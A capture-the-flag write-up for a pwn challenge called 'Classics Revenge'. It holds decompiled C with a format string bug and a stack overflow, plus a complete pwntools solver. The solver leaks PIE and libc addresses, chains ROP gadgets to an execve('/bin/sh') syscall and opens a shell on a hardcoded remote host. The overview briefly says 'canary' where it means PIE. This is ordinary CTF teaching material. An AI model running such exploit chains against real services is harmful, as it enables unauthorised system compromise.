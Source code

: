 ## Classics Revenge
![challenge](../images/Classics_rev.png)

### Source Code
```c
void menu(void)

{
  puts("Hello pwner, i\'ll give you two choices . do your magic!.");
  puts("--> [1] shake your proteins.");
  puts("--> [2] drink it.");
  puts("--> [3] go to the gym.");
  printf("> ");
  return;
}
```
```c
void shake(void)

{
  undefined local_dc [4];
  char local_d8 [208];
  
  printf("How many spoons do you want to pour: ");
  __isoc99_scanf(&DAT_0010202e,local_dc);
  printf("Do You want to say something while we are preparing it ?: ");
  read(0,local_d8,199);
  printf(local_d8);
  puts("now go drink it.");
  return;
}
```
```c
void drink(void)

{
  undefined local_48 [64];
  
  puts("Now drink your proteins and give me your feedback\n");
  __isoc99_scanf(&DAT_001020bb,local_48);
  return;
}
```
```c
undefined8 main(void)

{
  char local_11 [5];
  uint local_c;
  
  setup();
  while( true ) {
    menu();
    read(0,local_11,4);
    local_c = atoi(local_11);
    if (local_c == 3) break;
    if (local_c < 4) {
      if (local_c == 1) {
        shake();
      }
      else if (local_c == 2) {
        drink();
      }
    }
  }
  puts("cy@");
  return 0;
}
```

### Overview
Before diving into the exploitation process let's check the security of the binary.<br>
![checksec](../images/Classics_rev_checksec.png)

We can see that both ```NX``` and ```PIE``` are enabled (if you don't know what canary is you can check this https://ir0nstone.gitbook.io/notes/types/stack/pie). So in order to solve this we need to :
	<ul>
		<li><strong>Leak PIE base address</strong></li>
		<li><strong>Calculate libc.address</strong></li>
		<li><strong>Pop up a Shell</strong></li>
	</ul>

### Solver
```py
#!/usr/bin/env python3
from pwn import *

libc = ELF(b'libc6_2.27-3ubuntu1.5_amd64.so')
elf = context.binary = ELF('./main')
p = remote('20.216.40.184', 10010)

junk = b'\x90' * 72

p.sendline(b'1')
p.sendline(b'1')
p.recvuntil(b'Do You want to say something while we are preparing it ?: ')
p.sendline(b'%26$p')
leak = int(p.recvline().strip(), 16)
elf.address = leak - 0x2128
log.success(f'PIE base : {hex(elf.address)}')

rop = ROP(elf)
rop.call(elf.plt.puts, [elf.got.puts])
rop.call(elf.sym.main)
log.info(rop.dump())
payload = junk + rop.chain()
p.sendline(b'2')
p.recvuntil(b'Now drink your proteins and give me your feedback\n\n')
p.sendline(payload)
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info(f'puts_got : {hex(leak)}')

libc.address = leak - libc.sym.puts
log.success(f"libc Address : {hex(libc.address)}")

pop_rdi_offset = 0x145b
POPRDI = elf.address + pop_rdi_offset
POPRAX = libc.address + 0x00000000001cf8a8
POPRSI = libc.address + 0x0000000000023a6a
POPRDX = libc.address + 0x0000000000001b96
SYSCALL = libc.address + 0x0000000000002743

pay = junk
pay += p64(POPRAX)
pay += p64(0x3b)
pay += p64(POPRDI)
pay += p64(next(libc.search(b'/bin/sh')))
pay += p64(POPRSI)
pay += p64(0)
pay += p64(POPRDX)
pay += p64(0)
pay += p64(SYSCALL)

p.sendline(b'2')
p.recvuntil(b'Now drink your proteins and give me your feedback\n\n')
p.sendline(pay)

p.interactive()
p.close()
```
